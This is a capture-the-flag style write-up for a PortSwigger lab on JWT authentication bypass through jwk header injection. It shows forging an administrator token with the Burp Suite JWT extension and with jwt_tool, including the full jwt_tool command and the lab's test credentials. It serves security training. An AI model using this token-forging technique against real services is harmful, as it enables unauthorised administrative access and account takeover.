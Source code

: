 Title: JWT authentication bypass via jwk header injection
Level: Practitioner 
Desc:  This lab uses a JWT-based mechanism for handling sessions. The server supports the jwk parameter in the JWT header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.
To solve the lab, modify and sign a JWT that gives you access to the admin panel at /admin, then delete the user carlos.
You can log in to your own account using the following credentials: wiener:peter 


![image](https://github.com/user-attachments/assets/d26e42dc-e83a-4dea-8d0f-8549336a476d)

![image](https://github.com/user-attachments/assets/bdabd0e4-e199-4285-827e-33d48887ccb7)


How to attack JWT token with jwk parameter: 
# attempt 1 - use Burpsuite Extension
Here you can create key - please remember to create key with proper algoritm (can be symethric or asymethric)
![image](https://github.com/user-attachments/assets/118e6276-e941-4433-84ca-bc05e7b3035a)

![image](https://github.com/user-attachments/assets/396b1c09-91af-4930-8baf-5591acfd674a)

In the repeater you can find jwt plugin, which gives possibility to make some attack on jwt token, including attacks on jwk parameter:
![image](https://github.com/user-attachments/assets/899a6e1d-bf13-47a9-ae46-24ad846155d2)

Attack - embedded jwk - use created key to sign jwt token
Before that change payload to meet your goals - in my case it was changing sub to administrator

Forged token: 
![image](https://github.com/user-attachments/assets/08af94a6-468e-4c7c-965e-23747d337cb4)

click send to check out if token is valid.

# attempt 2 - using jwt_tool 
First of all I installed this tools using commands:
`sudo apt update && sudo apt install python3 python3-pip
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
pip3 install -r requirements.txt
`
to run the jwt_tool : `python3 jwt_tool.py -h`

There is some useful option in jwt_tool: 
![image](https://github.com/user-attachments/assets/86a586f4-65ca-48bf-bfc1-3acba5f3bf5f)
(-X (exploit) with i parameter (inject inline JWKS))

command to get valid token: 
`python3 jwt_tool.py eyJraWQiOiIxYWZhMmYzOC1hYmQzLTQ0YWYtYjYxNi01MTg3YjJlNDExNzAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MzUzMDg3Miwic3ViIjoid2llbmVyIn0.t2JHJdHjvOiMrVx0fUMt_SPIjX-e-KlBrEqFNj0Pv8LnMlXRlCkQxAMzkvDN5IND9_JADwSNlNcpLOjvUdAQTPC57lOpWy26Jyem9FevrXzD-KqhC-r9zKdbuearXs0mvE4FZyK3KtYnrDHwzPtgw4zHdribvqaGiz-Q9MG051ZuWsoZK5Eq98Z1GBLPWkgdw6QCfmtYZLzWHZW3QZ22haio6KhpzsU7c5h27RF4jE-npz8OxnaeslDX8PAly45TEC6zZ613TiIvzZ_NtFSNoPNaCeY0_cUp5ytcFCYAzkXWNlgQ8igB6tcGHErT22WXAtqyVScuuINqE50uVYBKQg -I -pc sub -pv administrator -hc kid -hv jwt_tool -X i`

-hc option says header claim 
-hv options says header value
-pc option says payload claim
-pv option says header value

remember to use jwt_tool as kid parameter because these parameter is used in couple of places.

# How token looks like with kid attack: 
![image](https://github.com/user-attachments/assets/aac95d52-af64-4523-b642-2d961576d6fa)
![image](https://github.com/user-attachments/assets/a4a125ac-812b-4674-8f84-f013d062f326)






























